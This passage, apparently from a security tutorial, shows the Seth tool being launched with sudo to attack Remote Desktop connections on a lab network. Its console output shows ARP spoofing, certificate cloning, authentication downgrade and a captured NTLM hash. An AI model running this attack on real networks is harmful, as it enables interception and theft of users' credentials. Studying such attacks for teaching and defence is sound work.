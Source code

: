 When you run Seth on the attacker machine and then try and connect using the Remote Desktop Client, you get this output:

┌─\[rin@parrot\]─\[/opt/Seth\]

└──╼ $sudo ./seth.sh eth0 10.0.1.7 10.0.1.5 10.0.1.8

███████╗███████╗████████╗██╗ ██╗

██╔════╝██╔════╝╚══██╔══╝██║ ██║ by Adrian Vollmer

███████╗█████╗ ██║ ███████║ seth@vollmer.syss.de

╚════██║██╔══╝ ██║ ██╔══██║ SySS GmbH, 2017

███████║███████╗ ██║ ██║ ██║ [https://www.syss.de](https://www.syss.de)

╚══════╝╚══════╝ ╚═╝ ╚═╝ ╚═╝

\[\*\] Linux OS detected, using iptables as the netfilter interpreter

\[\*\] Spoofing arp replies...

\[\*\] Turning on IP forwarding...

\[\*\] Set iptables rules for SYN packets...

\[\*\] Waiting for a SYN packet to the original destination...

\[+\] Got it! Original destination is 10.0.1.27

\[\*\] Clone the x509 certificate of the original destination...

\[\*\] Adjust iptables rules for all packets...

\[\*\] Run RDP proxy...

Listening for new connection

Connection received from 10.0.1.5:61220

Warning: RC4 not available on client, attack might not work

Downgrading authentication options from 11 to 3

Listening for new connection

Enable SSL

Connection received from 10.0.1.5:61232

Warning: RC4 not available on client, attack might not work

Downgrading authentication options from 11 to 3

Listening for new connection

Enable SSL

Failed to extract keyboard layout information

rin:::afb99ab9d701d668:9511818e381cab338594796e923386ef:010100000000000007cbbd3eb4b8d601699b03023078129f0000000002001e004400450053004b50000bf00510001001e004400450053004b3344550004001e004400450053004b0054004f0050002d004900520052004b0044004e00510003001e004400450053004b0054004f0050002d004900520052004b0044004e0051000700080007cbbd3eb4b8d60106000cd00020000000000000000000000
